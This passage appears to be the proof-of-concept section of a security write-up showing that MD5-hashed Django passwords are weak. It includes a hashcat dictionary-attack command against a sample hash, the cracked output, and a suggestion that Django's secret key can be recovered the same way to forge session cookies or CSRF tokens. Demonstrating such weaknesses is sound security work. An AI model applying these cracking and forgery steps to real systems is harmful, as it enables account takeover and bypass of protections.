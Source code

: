 # 1. **Proof of concept**

## 1.1  Password storage

If the attacker is able to get the data on the database he should get someting like this:

| id | password                                                          | last_login | is_superuser |  username | ... |
|----|-------------------------------------------------------------------|------------|--------------|-----------|-----|
| 1  | md5\$VeVgy2ZPpwNSOejO0NUGDX$ed1c717cec771fb32d7de5a0ccd3fb2b      | some_date  |              | userTest1 |     |
| 2  | md5\$L4oOGpjpfvEvdXOJKp00QI$2b0226eae193bfb04b49f6ffe6635b1c      | some_date  |              | admin     |     |
|... |                                                                   |            |              |           |     |

Now it's a simple case of cracking the password, we will use hashcat for this example performing a dictionary attack using the rockyou.txt wordlist:

```shell script
hashcat -m 20 'ed1c717cec771fb32d7de5a0ccd3fb2b:VeVgy2ZPpwNSOejO0NUGDX' Documents/rockyou.txt
```

The result is :

``` shell
ed1c717cec771fb32d7de5a0ccd3fb2b:VeVgy2ZPpwNSOejO0NUGDX:Password11
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 20 (md5($salt.$pass))
Hash.Target......: ed1c717cec771fb32d7de5a0ccd3fb2b:VeVgy2ZPpwNSOejO0NUGDX
```

This can be extrapolated to other hashes and instead of using a dictonary attack use a brute/mask force attack.

## 1.2 Secret Key

The same process can be applied to discover the secret key of the Django framework, once we have a knowed signed value we can try to discover the secret key and finally create malicious session cookies for example or CSRF tokens to bypass protection
